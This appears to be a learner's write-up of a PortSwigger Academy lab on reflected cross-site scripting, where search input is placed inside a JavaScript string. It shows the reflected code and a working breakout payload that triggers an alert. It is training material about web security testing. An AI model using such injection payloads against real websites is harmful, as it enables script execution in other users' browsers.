



## Introduction

This is a [reflected XSS vulnerability](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) within the search bar, let’s try it.

## Investigation

We have the usual website: a blog post with a search bar. Let’s see how it works.



As usual, it sends a GET request, and we get the following URL:

```
https://0a4e003a039cead281826140000f0090.web-security-academy.net/?search=hey
```

Let’s inspect the input and see how our text is reflected on the page.

After some investigation in the page source, we realize the following code is used:

```js
<script>
     var searchTerms = '' &lt;script&gt;alert(1)&lt;/script&gt;';
     document.write('');
</script>
```

This script appears after inserting the following payload:

```
'<script>alert(1)</script>
```

So we can close the quote and then trigger an alert like this: `'; alert(`.

## Payload Building

We are on the right track. After developing some payloads, I tried this:

```js
'; alert(1);
```

But it still resulted in a syntax error:




```js
var searchTerms = ''; alert(1);';
```

So after the semicolon, I need something to handle the remaining quote.

I tried:

```js
'; alert(1);'1
```

And this payload worked. 





Why? Because it becomes:

```js
var searchTerms = ''; alert(1);'1';
```

And `'1'` is valid JavaScript syntax, since it is just a string.

## Conclusion

We have now finished the **Apprentice** labs for XSS. Can’t wait for the **Practitioner** and **Expert** ones.

